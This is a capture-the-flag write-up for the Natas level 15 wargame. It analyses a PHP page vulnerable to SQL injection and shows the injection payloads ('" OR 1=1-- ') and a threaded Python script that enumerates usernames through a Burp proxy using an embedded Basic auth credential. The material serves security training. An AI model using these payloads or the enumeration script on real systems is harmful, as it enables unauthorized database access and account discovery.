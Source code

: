 # Level 15

## Software used
- Google Chrome + FoxyProxy
- Burpsuite Community
- [onlinephp.io](https://onlinephp.io/)

## Hint
```php
<?php

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas15', '<censored>');
    mysqli_select_db($link, 'natas15');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysqli_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<?php } ?>
```

## Solution

### Code Analysis

```
/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/
```
It is actually a comment but it may be useful since it gives us a clue about the maximum length of usernames and passwords, and that the default value if NULL.  
[VARCHAR](https://dev.mysql.com/doc/refman/8.0/en/char.html): The CHAR and VARCHAR types are similar, but differ in the way they are stored and retrieved. They also differ in maximum length and in whether trailing spaces are retained.  
[MYSQL DEFAULT VALUE](https://dev.mysql.com/doc/refman/8.0/en/data-type-defaults.html)
```php
if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas15', '<censored>');
    mysqli_select_db($link, 'natas15');
```
If key _username_ exists in the special array $\_REQUEST, then connect to the database _natas15_ on localhost (local to the server) using the username _natas15_ and password... which is censored.  

```php
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }
```
Create the variable $query which holds the actual SQL query to be sent to the backend database.  

```php
$res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysqli_close($link);
} else {
?>
```

The variable $res holds the response from the backend database:
- if the number of rows ([mysqli_num_rows](https://www.php.net/manual/en/mysqli-result.num-rows.php)) is greater than 0, then prints to screen ""This user exists.\<br>"
- if the number of rows is 0 or a negative integer, then prints "This user doesn't exist.\<br>"
- if the result is everything else, prints "Error in query.\<br>"

At the end of the script, the connection to the database is closed.

## Exploit

Injecting the payload `" OR 1=1-- ` the app prints to screen **This user exists.**. By contrast, using the payload `" OR 1=2-- ` we get **This user doesn't exist.**.
```php
<?php

$array = array(
	
	"username" => '" OR 1=1-- ',
	/*"password" => '" OR 1=1-- ',*/
);

$query = "SELECT * from users where username=\"".$array["username"]."\"";

echo $query

?>
_____

SELECT * from users where username="" OR 1=1-- "
```

Bruteforcing the webapp using the following script* we found out the **alice** is a valid username.

```python
import requests
import sys
import urllib3
import concurrent.futures
from concurrent.futures import ThreadPoolExecutor

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# PROXY ALL REQUESTS THROUGH BURP
proxies = {'http' : 'http://127.0.0.1:8080' , 'https' : 'http://127.0.0.1:8080'}


def postRequest(s, target_url, username):
    # DEFINE ARGUMENTS TO SEND ALONG THE POST REQUEST
    params = {
        'username' : username
    }

    headers = {
        'Authorization': 'Basic bmF0YXMxNTpUVGthSTdBV0c0aURFUnp0QmNFeUtWN2tSWEgxRVpSQg=='
    }

    # SEND REQUEST
    r = s.post(target_url, headers=headers, data=params, verify=False, proxies=proxies)

    # CHECK IF USERNAME IS VALID
    if "This user exists." in r.text:
        return username, r.status_code



def main():
    if len(sys.argv) != 2:
        print("[-] Wrong number of arguments!")
        print("[-] Usage: %s <url>" % sys.argv[0])
        sys.exit(-1)

    url = sys.argv[1].strip()
    s = requests.Session()

    target_url = url + '/index.php'
    usernames = []
    
    # LOAD USERNAMES IN A LIST
    with open(r'.\usernames.txt', 'r') as file:
        print("[+] Loading all usernames in a list...")
        for line in file.readlines():
            username = line.strip()
            sys.stdout.write("[+] Added username %s\r" % username)
            sys.stdout.flush()
            sys.stdout.write("\033[K")
            usernames.append(username)
        
    how_many_usernames = len(usernames)
    print("[+] All set! %i usernames loaded" % how_many_usernames)

    # START THREADED EXECUTION
    with ThreadPoolExecutor (max_workers=5) as executor:
        future_to_url = {executor.submit(postRequest, s, target_url, username) for username in usernames}
        for future in concurrent.futures.as_completed(future_to_url):
            try:
                
                    data = future.result()
                    if data:
                        print(data[0], data[1])
                

            except Exception as exc:
                print("[-] Error: %s" % exc)

if __name__ == "__main__":
    main()
```

*This script is _raw_, it is fast but you need to kill the process to stop it.

